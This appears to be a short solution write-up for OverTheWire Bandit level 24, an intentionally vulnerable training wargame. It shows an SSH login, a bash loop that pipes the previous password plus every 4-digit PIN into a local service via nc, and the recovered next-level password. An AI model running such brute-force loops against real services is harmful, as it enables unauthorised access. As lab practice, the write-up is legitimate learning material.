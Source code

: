 - ssh bandit24@bandit.labs.overthewire.org -p2220
- mkdir /tmp/dofox; cd /tmp/dofox
- nano test.sh
```
#!/bin/bash

password=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
target="nc localhost 30002"

for i in {0000..9999}; do
	echo "$password  $i"
done | $target | grep -v Wrong
```
- chmod +x test.sh
- ./test.sh
> uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

continue to [[level 25]]
